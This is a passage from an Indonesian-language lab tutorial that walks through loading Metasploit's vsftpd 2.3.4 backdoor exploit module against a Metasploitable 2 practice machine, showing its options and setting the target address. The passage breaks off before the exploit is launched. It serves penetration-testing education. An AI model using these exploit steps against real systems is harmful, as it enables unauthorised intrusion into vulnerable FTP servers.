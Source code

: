     Metasploit menemukan satu modul eksploit yang sangat cocok. Peringkat `excellent` berarti eksploit ini sangat stabil dan hampir pasti berhasil.

3.  **Gunakan Eksploit**: Muat modul eksploit tersebut dengan perintah `use`.

    ```bash
    msf6 > use exploit/unix/ftp/vsftpd_234_backdoor
    ```
![gambar6.png](images/gambar6.png)
    Prompt Anda akan berubah menjadi `msf6 exploit(unix/ftp/vsftpd_234_backdoor) >`, menandakan modul telah dimuat.

4.  **Lihat Opsi**: Setiap modul memiliki opsi yang perlu dikonfigurasi. Gunakan `show options` untuk melihatnya.

    ```bash
    msf6 exploit(unix/ftp/vsftpd_234_backdoor) > show options

    Module options (exploit/unix/ftp/vsftpd_234_backdoor):

       Name   Current Setting  Required  Description
       ----   ---------------  --------  -----------
       RHOSTS                  yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
       RPORT  21               yes       The target port (TCP)

    Payload options (cmd/unix/interact):
    ...
    ```
    ![gambar7.png](images/gambar7.png)

    Kita bisa lihat bahwa `RHOSTS` (Remote Host / Target) adalah satu-satunya opsi yang **wajib** (`yes`) diisi.

5.  **Atur Target**: Set opsi `RHOSTS` ke alamat IP Metasploitable 2.

    ```bash
    msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set RHOSTS 192.168.100.101
    RHOSTS => 192.168.100.101
    ```
    ![gambar8.png](images/gambar8.png)
